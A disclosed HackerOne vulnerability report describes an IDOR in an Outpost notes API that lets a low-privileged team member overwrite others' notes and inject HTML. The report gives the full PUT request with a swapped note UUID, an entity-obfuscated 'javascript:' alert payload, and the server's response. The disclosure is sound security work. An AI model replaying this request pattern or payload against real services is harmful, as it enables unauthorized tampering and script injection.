 # IDOR on notes to HTML injection

## Report Details
- **Report ID**: 914331
- **URL**: https://hackerone.com/reports/914331
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-02T20:12:45.901Z
- **Disclosed**: 2020-11-26T03:37:41.122Z

## Reporter
- **Username**: ph-hitachi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: palo_alto_software

## Vulnerability Information
## Summary:
Team member with role USER can change notes of any users and also we able to inject some html tags 

## Steps To Reproduce:

  1. Login in with role `owner` create `note`
  1. login team member with  role `users`
  1. add `note` and capture with `burp suite` and change the uuid of `notes``


```
PUT /api/v1/note/b9db186a-c0af-462d-ad71-c30c2bfd7cf5 HTTP/1.1
Host: api.outpost.co
Connection: close
Content-Length: 102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/json
Accept: */*
Origin: https://app.outpost.co
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.outpost.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8,th;q=0.7
Cookie:  <authentacation_cookies>

{"body":"<h1><a href=\"j&#97v&#97script&#x3A;&#97lert(1)\">This is a test</a></h1>","mentionUuids":[]}
```

### Response:
```json
{
  "body": "<h1><a href=\"j&amp;#97v&amp;#97script:&amp;#97lert%281%29\" rel=\"nofollow\">This is a test</a></h1>",
  "uuid": "b9db186a-c0af-462d-ad71-c30c2bfd7cf5",
  "conversationUuid": "78a8df65-aaa0-4384-9dfe-ab6120f3737f",
  "createdBy": {
    "uuid": "b065722c-09b4-45f2-8ee3-4a4a8a92080f",
    "displayName": "justin",
    "firstName": "justin",
    "lastName": "lee",
    "isDeleted": false,
    "gravatarHash": "630369207d5b093d4d57dcda07d6c22f",
    "avatarColor": "ORANGE"
  },
  "modifiedBy": {
    "uuid": "7d2f671b-ed97-4a2b-8bb3-8d7538e73e34",
    "displayName": "Attacker",
    "firstName": "Attacker",
    "lastName": "1",
    "isDeleted": false,
    "gravatarHash": "f33c9e2461140f5fd594a1870dfdf980",
    "avatarColor": "PURPLE"
  },
  "createdDate": 1593549551704,
  "modifiedDate": 1593719773232,
  "status": "DEFAULT"
}
```
{F891966}

## Impact

using this the user can edit any note of member or inject some malicious html content

## Attachments
- IDOR.PNG
- poc.png
